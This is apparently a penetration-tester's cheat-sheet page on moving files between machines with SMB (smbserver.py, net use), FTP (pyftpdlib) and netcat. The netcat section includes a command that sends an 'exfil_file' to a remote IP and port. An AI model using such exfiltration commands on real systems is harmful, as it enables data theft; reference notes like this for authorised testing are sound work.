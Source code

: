 ```yaml
---
title: "Transfert"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


## SMB

- Linux machine: 
```sh
smbserver.py smb share/ -smb2support
```

- Windows machine: 
```sh
net use \\ip\smb
```

## NC
```sh
nc -lvnp 4444 > new_file #receving machine
nc.exe -vn 10.8.3.12 4444 < exfil_file #sending machine
```

## FTP 
```sh
pip3 install pyftpdlib
python3 -m pyftpdlib -p 21
```

